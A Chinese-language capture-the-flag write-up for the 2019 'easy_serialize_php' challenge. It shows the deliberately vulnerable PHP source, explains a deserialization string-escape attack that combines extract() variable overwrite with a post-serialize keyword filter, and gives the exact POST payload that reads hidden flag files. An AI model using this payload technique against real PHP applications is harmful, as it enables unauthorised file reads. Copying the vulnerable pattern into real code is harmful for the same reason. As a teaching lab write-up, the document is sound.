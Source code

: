 ## [安洵杯 2019]easy_serialize_php

```php
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

可控参数有

`f，user，function`(这里可以利用extract函数进行变量覆盖)

我们查看一下phpinfo里面，发现有个`d0g3_f1ag.php`文件

基本思路就有了

```
使$userinfo['img']等于ZDBnM19mMWFnLnBocA==，读取d0g3_f1ag.php文件的内容
```

`$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));`这里进行sha1加密就不能base64

解码，所以只能走if这条路

发现这个函数`preg_replace`，想到了可以进行字符串逃逸

我们将变量赋值为

```php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = '11';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
```

序列化结果

```
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

如果想让img参数进行解析，我们需要吃的字符串是`";s:8:"function";s:2:"11`24个字符，6个flag正好是24个字符

赋值

```php
$_SESSION["user"] = 'guestflagflagflagflagflagflag';
$_SESSION['function'] = '11';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
```

序列化结果

```
a:3:{s:4:"user";s:29:"guest";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

这样img参数就可以解析，但function参数没了，我们要加上function参数

赋值

```php
$_SESSION["user"] = 'guestflagflagflagflagflagflag';
$_SESSION['function'] = '";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
```

序列化结果

```
a:3:{s:4:"user";s:29:"guest";s:8:"function";s:65:"";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

在user变量里，会多吃一个`"`,即`guest";s:8:"function";s:65:""`这样才是29个字符，我们需要在function参数前多加一个字符

```
$_SESSION['function'] = 'a";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
```

序列化结果

```
a:3:{s:4:"user";s:29:"guest";s:8:"function";s:66:"a";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

这样就都能被解析了

payload

```
GET传参:
f=show_image
POST传参:
_SESSION[user]=guestflagflagflagflagflagflag&_SESSION[function]=a";s:8:"function";s:2:"11";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

`d0g3_f1ag.php`文件的内容是

```php
<?php

$flag = 'flag in /d0g3_fllllllag';

?>
```

同样读取`/d0g3_fllllllag`文件

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$_SESSION["user"] = 'guestflagflagflagflagflagflag';
$_SESSION['function'] = 'a";s:8:"function";s:2:"11";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');


$serialize_info = filter(serialize($_SESSION));
echo $serialize_info;
```

学这道题前，可以先学习字符串逃逸的原理